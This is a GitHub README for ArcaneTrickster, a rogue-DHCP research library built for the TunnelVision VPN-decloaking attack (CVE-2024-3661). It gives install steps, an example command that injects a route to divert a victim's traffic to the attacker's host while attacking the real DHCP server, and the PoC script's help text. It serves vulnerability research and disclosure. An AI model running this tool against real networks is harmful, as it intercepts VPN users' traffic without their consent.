 # ArcaneTrickster
ArcaneTrickster, or "Arcane," is an event-driven research library for low-level networking. It was built as a research tool for TunnelVision (CVE-2024-3661) because we lacked a robust, rogue DHCP server.

Its goals are to:
* Take over as the de-facto DHCP server without relying on race conditions
* Minimize disruption to clients
* Provide flexibility for diverse environments

## Install
```bash
git clone https://github.com/superit23/arcanetrickster.git
python3 -m venv arcaneenv
source ./arcaneenv/bin/activate
python3 -m pip install -r ./arcanetrickster/requirements.txt
```

## Usage
Currently, Arcane requires some amount of programming skill to use. However, we built an easy TunnelVision PoC in the "tunnelvision.py" script that executes the adjacent host decloaking attack.

Here's an example. Imagine we're on the 10.10.10.0/24 subnet, 10.10.10.1 is the authoritative DHCP server, our current IP is 10.10.10.220, and we want to snoop on traffic to 8.8.8.8. We'd listen on the appropriate interface with `-i`, and inject a route sending traffic for 8.8.8.8 to 10.10.10.220 with `-r`, use the `adjacent` attack vector, and tell the DHCPReleaser to send releases to 10.10.10.1 with `-s`.
```bash
./scripts/tunnelvision.py -i enp0s3 -r 8.8.8.8/32:10.10.10.220 adjacent -s 10.10.10.1
```

Help text:
```bash
└─$ ./scripts/tunnelvision.py -h
usage: TunnelVision PoC [-h] -i INTERFACE [-d DNS] [-r ROUTE] [-l LEASE_TIME] [-v] {adjacent,authoritative} ...

Decloaks VPN users on the LAN

positional arguments:
  {adjacent,authoritative}

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to listen on
  -d DNS, --dns DNS     DNS server
  -r ROUTE, --route ROUTE
                        Route to add to table. May be listed more than once
  -l LEASE_TIME, --lease-time LEASE_TIME
                        Lease duration
  -v, --verbose         Print DEBUG messages to console


└─$ ./scripts/tunnelvision.py adjacent -h
usage: TunnelVision PoC adjacent [-h] [-s SERVER]

options:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        DHCP server to attack


└─$ ./scripts/tunnelvision.py authoritative -h
usage: TunnelVision PoC authoritative [-h] [-n NETWORK] [-m MASK]

options:
  -h, --help            show this help message and exit
  -n NETWORK, --network NETWORK
                        Network addresses to lease
  -m MASK, --mask MASK  Subnet mask
```
